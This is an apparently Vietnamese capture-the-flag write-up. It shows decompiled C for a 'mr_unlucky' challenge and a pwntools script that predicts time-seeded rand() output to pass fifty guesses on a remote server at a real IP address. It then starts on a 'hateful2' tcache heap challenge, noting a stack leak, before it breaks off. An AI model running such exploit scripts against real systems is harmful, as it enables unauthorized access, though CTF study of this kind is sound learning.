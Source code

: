 ```c
    {
      printf("Wrong guess! The correct hero was %s.\n", (&heroes)[v6]);
      exit(0);
    }
    printf("%s was right! moving on to the next guess...\n", s);
  }
  puts("Wow you are one lucky person! fine, here is your aegis (roshan will not be happy about this!)");
  print_flag("flag.txt");
  return 0;
}
```
script

```python
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL
from time import time
from ctypes.util import find_library

exe = ELF("./mr_unlucky_patched")
ld = ELF("./ld-linux-x86-64.so.2")
libc = CDLL(find_library('c'))
context.binary = exe

#p = process()
p = remote('52.59.124.14',5021)
array = ["Anti-Mage","Axe","Bane","Bloodseeker","Crystal Maiden","Drow Ranger","Earthshaker","Juggernaut",
"Mirana","Morphling","Phantom Assassin","Pudge","Shadow Fiend","Sniper","Storm Spirit","Sven","Tiny","Vengeful Spirit","Windranger","Zeus"]

current_time = int(time())
libc.srand(current_time)
sleep(3)
for i in range(50):
    value = libc.rand() % 20
    p.sendline(array[value])

p.interactive()
```

## hateful2 (tcache 2.36)


### reverse 

```about_us```  : hàm này cho chúng ta một stack leak 

```c
unsigned __int64 about_us()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 16;
  puts("We are here for you! Our Job is to deliver what you want to say to your BOSS!!!");
  puts("HATEFUL was created so you can send your honest feedback to your boss with out him knowing it was you");
  puts(
```
